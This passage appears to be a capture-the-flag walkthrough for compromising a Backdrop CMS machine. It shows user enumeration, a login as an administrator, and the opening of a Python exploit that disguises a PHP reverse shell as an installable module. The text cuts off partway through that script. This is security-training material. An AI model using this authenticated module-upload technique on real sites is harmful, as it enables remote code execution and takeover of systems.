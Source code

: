 <br/><br/>
A hash salt is also present 
<br/><br/>
![image.png]({{ '/assets/images/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e_image_9.png' | relative_url }})
<br/><br/>
We need to find usernames in here, the first we found didn’t work, use the domain as filter to find `Tiffany`
<br/><br/>
![image.png]({{ '/assets/images/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e_image_10.png' | relative_url }})
<br/><br/>
Her email address is in an update settings file
<br/><br/>
![image.png]({{ '/assets/images/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e_image_11.png' | relative_url }})
<br/><br/>
Log in the graphical interface as Tiffany
<br/><br/>
![image.png]({{ '/assets/images/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e_image_12.png' | relative_url }})
<br/><br/>
We have a lot of users with “administrator” role in here
<br/><br/>
![image.png]({{ '/assets/images/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e_image_13.png' | relative_url }})
<br/><br/>
Until now, we haven’t found CMS version, use this same filter to find an authenticated Remote Code Execution
<br/><br/>
![image.png]({{ '/assets/images/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e_image_14.png' | relative_url }})
<br/><br/>
We have and exploit that creates a php reverse shell and a module.info file, packages them into a zip archive and install it as a module, Once installed the reverse can be triggered by simply sending a GET request to the file
<br/><br/>
```python
import os
import time
import zipfile
import sys

def create_files():
	info_content = """
    type = module
    name = Block
    description = Controls the visual building blocks a page is constructed
    with. Blocks are boxes of content rendered into an area, or region, of a
    web page.
    package = Layouts
    tags[] = Blocks
    tags[] = Site Architecture
    version = BACKDROP_VERSION
    backdrop = 1.x

    configure = admin/structure/block

    ; Added by Backdrop CMS packaging script on 2024-03-07
    project = backdrop
    version = 1.27.1
    timestamp = 1709862662
    """
    shell_info_path = "shell/shell.info"
    os.makedirs(os.path.dirname(shell_info_path), exist_ok=True)
    with open(shell_info_path, "w") as file:
```